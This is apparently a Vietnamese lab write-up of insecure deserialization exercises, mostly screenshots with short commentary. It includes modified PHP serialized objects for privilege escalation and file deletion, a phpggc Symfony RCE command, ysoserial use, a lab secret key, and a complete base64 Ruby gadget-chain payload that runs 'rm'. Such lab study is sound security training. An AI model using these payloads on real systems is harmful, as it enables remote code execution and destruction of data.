 ![image](https://github.com/user-attachments/assets/ec542df8-ec54-4369-a4b5-f14f2d310f87)

Đây là sau khi tôi log in với cred wiener:peter

![image](https://github.com/user-attachments/assets/a0edf15a-0c61-440b-a671-afad05fe7aad)

Đây là req sau khi log in, ở cái cookie, nó được encode bằng base64 và có thông tin user trong đó:

![image](https://github.com/user-attachments/assets/aecaec3d-99cd-4534-bab1-41d9f1312cfe)

`O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:0;}` nhìn qua thì trong cái { }, có s tôi nghĩ là đại diện cho String, số sau đó là độ dài của String, và b:0 là giá trị boolean, chính boolean thành 1 thì xuất hiện admin panel:

![image](https://github.com/user-attachments/assets/e38f9e32-2c4e-45ff-bbc9-4a2e139fe2ee)

![image](https://github.com/user-attachments/assets/ef297f58-6719-40fe-9ed5-04556d223afb)

<h1>---------------------------------------------------------</h1>
<br>

![image](https://github.com/user-attachments/assets/63e82a38-bb0d-4ead-ba79-f48654f085a1)

Lần này có cái access_token nên tôi thử sửa username thành admin:

![image](https://github.com/user-attachments/assets/785b12a1-c036-408e-a2f4-52e51625acfe)

![image](https://github.com/user-attachments/assets/0d71731d-cc94-44a2-92a0-cd5bb3ebf022)

![image](https://github.com/user-attachments/assets/f0f6fc64-72eb-4464-bdce-d654fce3e446)

Tôi sửa token thành i:0 tức là đổi sang dạng integer với giá trị là 0, trong chuỗi serialized PHP object, i:0; có nghĩa là giá trị của thuộc tính access_token là một số nguyên (integer) có giá trị 0.

![image](https://github.com/user-attachments/assets/c6defdad-fa80-4035-9fd0-81ad80de66e5)

![image](https://github.com/user-attachments/assets/be19b556-3cf1-4891-b081-89720f101b17)

<h1>---------------------------------------------------------</h1>
<br>

![image](https://github.com/user-attachments/assets/ea457d0c-36a2-479a-92e4-a1815afd54cb)

Đây là khi đăng nhập với wiener:peter thì ra như này:

![image](https://github.com/user-attachments/assets/a0c208fa-af8a-4d32-874c-f74ec86a3bee)

Và đây là cookie của wiener

![image](https://github.com/user-attachments/assets/a47747d7-3107-4d4e-9059-7de4aec583ed)

Và đây là req khi delete account wiener:

![image](https://github.com/user-attachments/assets/9245f008-ba30-4cfc-bc6c-be9e5c7c8589)

Do là xóa cái morale.txt của carlos nên tôi thử đổi thành /home/carlos/morale.txt và vẫn với req đấy:

![image](https://github.com/user-attachments/assets/24ede55b-d19f-4120-8a05-abb9c568e65e)

![image](https://github.com/user-attachments/assets/513df6a0-acce-4352-9e97-fad27e6c7871)

<h1>---------------------------------------------------------</h1>
<br>

![image](https://github.com/user-attachments/assets/5f39ae74-f80f-4194-8197-b9ad7669c318)

Đây là req khi login wiener:peter 

![image](https://github.com/user-attachments/assets/e3841cdf-6d7d-4c66-894a-ed78aa49ea0a)

Tôi sửa thành carlos thì dính lỗi, có vẻ không làm được gì carlos 

![image](https://github.com/user-attachments/assets/7d34724d-b2fa-4c6a-85a6-07361d27667a)

Tôi xem trong target thì lấy cái /libs/CustomTemplate.php nhìn lạ lạ:

![image](https://github.com/user-attachments/assets/e22b975f-bf4b-4fa9-a688-ff512d2f880e)

Gửi thử nhưng chả có gì, cơ mà đã gửi được thì chắc phải có công dụng gì đó:

![image](https://github.com/user-attachments/assets/4a71d3a7-3dd2-476c-af6b-9304b0a8affe)

Trong hint thì có bảo dùng dấu ~ ở cuối thường là để backup:

![image](https://github.com/user-attachments/assets/5b8e827a-d28e-4d35-a842-bf851f265342)

Thêm dấu ~ vào cuối thì có toàn bộ src code, để ý cái hàm __destruct(), nó dùng để xóa file, mà cái này code kiểu hướng đối tượng nên tôi nghĩ là sẽ sửa cái cookie theo đối tượng:

![image](https://github.com/user-attachments/assets/52f8ac59-a399-464a-bd0e-1094666af2f7)

Tôi sửa thành `O:14:"CustomTemplate":1:{s:14:"lock_file_path";s:23:"/home/carlos/morale.txt";}` và được

<h1>---------------------------------------------------------</h1>
<br>

![image](https://github.com/user-attachments/assets/30abc50a-23e9-489d-826e-e8908d9cae08)

Lần này thì cookie nó không như trước nữa nên chắc không làm được gì:

![image](https://github.com/user-attachments/assets/eeb38616-35cb-479f-afb7-749ba835245c)

Search cái ysoserial thì ra cái này:

![image](https://github.com/user-attachments/assets/a1dc782d-0693-415e-87c6-d82d8ab8853f)

Sau vài lần thử thì cái CommonsCollections4 là dùng được, paste vào cookie và url encode tất cả:

![image](https://github.com/user-attachments/assets/68f4b02e-791e-46bd-8b95-0ee4ad749fe9)

![image](https://github.com/user-attachments/assets/ec1a9249-2357-4946-8290-bfd88ea627eb)

<h1>---------------------------------------------------------</h1>
<br>

![image](https://github.com/user-attachments/assets/f7686e03-b09a-43fa-89f2-cb9f0baab743)

Đây là req khi log in vào với cred wiener:peter 

![image](https://github.com/user-attachments/assets/934d9327-62b9-4f0d-8c98-31dc8e32ba83)

Để ý cái này giống giống với base64, khi dịch ra thì ra được thông tin:

![image](https://github.com/user-attachments/assets/3dd4e870-db72-4fc3-99b3-6aeff297bb63)

![image](https://github.com/user-attachments/assets/d98115fd-c43d-4a05-95ec-2c87620a38b2)

Tôi đổi sang carlos thì lỗi:

![image](https://github.com/user-attachments/assets/4670dab4-11d4-4bba-8d7b-66d0998d5eec)

Vào target tôi cũng biết được cái web này dùng php 7.4.3 thông qua req /cgi-bin/phpinfo.php:

![image](https://github.com/user-attachments/assets/603efc47-a12a-4936-867d-ff26c9423197)

Và tôi tìm được thêm cái SECRET_KEY au0d4x2foyt1vm89q8zh4rf25iwcw299:

![image](https://github.com/user-attachments/assets/481e3768-04aa-4ada-b398-97d619db3449)

Có được key rồi, tôi đi tải công cụ PHPGGC để tạo payload PHP object khai thác lỗ hổng trong Symfony:

![image](https://github.com/user-attachments/assets/f9b29ba2-32e3-47dc-8bf9-7d8bcc5d770e)

![image](https://github.com/user-attachments/assets/ac87c243-86f6-41bf-856f-2b589e600a56)

Tôi chạy `./phpggc Symfony/RCE4 exec 'rm /home/carlos/morale.txt' | base64` để lấy được lệnh rm morale.txt:

![image](https://github.com/user-attachments/assets/ef1b27e7-7177-4337-82eb-07b61d5180b2)

Sử dụng đoạn mã PHP sau để tạo cookie hợp lệ với payload độc hại

![image](https://github.com/user-attachments/assets/f6b6fc5e-55ef-466f-a59f-2a8bd71ffb80)

![image](https://github.com/user-attachments/assets/41a67562-ce46-4fad-81bc-4ce38b0e61c1)

<h1>---------------------------------------------------------</h1>
<br>

![image](https://github.com/user-attachments/assets/fdcf70b9-adfe-437e-ade4-d489d513f4ff)

Đây là req khi log in và lần này cookie nhìn khác rồi:

![image](https://github.com/user-attachments/assets/33218f1f-a820-4be5-854e-1b9f6debf58d)

Search google ruby deserialization gadget chain thì có được cái [này](https://devcraft.io/2021/01/07/universal-deserialisation-gadget-for-ruby-2-x-3-x.html):

![image](https://github.com/user-attachments/assets/4852985a-4dcb-4530-a37a-1916e83105ee)

Trong trang web đó có 1 đoạn ruby này:

![image](https://github.com/user-attachments/assets/b2fee1bc-4d11-489a-b983-5a4dc0f51415)

Sửa command id thành rm và thêm encode base64 ở cuối:

![image](https://github.com/user-attachments/assets/a0041f4c-d59c-4e41-9a4b-72f5884828a0)

```BAhbCGMVR2VtOjpTcGVjRmV0Y2hlcmMTR2VtOjpJbnN0YWxsZXJVOhVHZW06OlJlcXVpcmVtZW50WwZvOhxHZW06OlBhY2thZ2U6OlRhclJlYWRlcgY6CEBpb286FE5ldDo6QnVmZmVyZWRJTwc7B286I0dlbTo6UGFja2FnZTo6VGFyUmVhZGVyOjpFbnRyeQc6CkByZWFkaQA6DEBoZWFkZXJJIghhYWEGOgZFVDoSQGRlYnVnX291dHB1dG86Fk5ldDo6V3JpdGVBZGFwdGVyBzoMQHNvY2tldG86FEdlbTo6UmVxdWVzdFNldAc6CkBzZXRzbzsOBzsPbQtLZXJuZWw6D0BtZXRob2RfaWQ6C3N5c3RlbToNQGdpdF9zZXRJIh9ybSAvaG9tZS9jYXJsb3MvbW9yYWxlLnR4dAY7DFQ7EjoMcmVzb2x2ZQ==```
Kết quả thì ra cái này

![image](https://github.com/user-attachments/assets/c163e4f1-6ff6-4629-a9a5-5aa1f28362d7)

<h1>---------------------------------------------------------</h1>
<br>
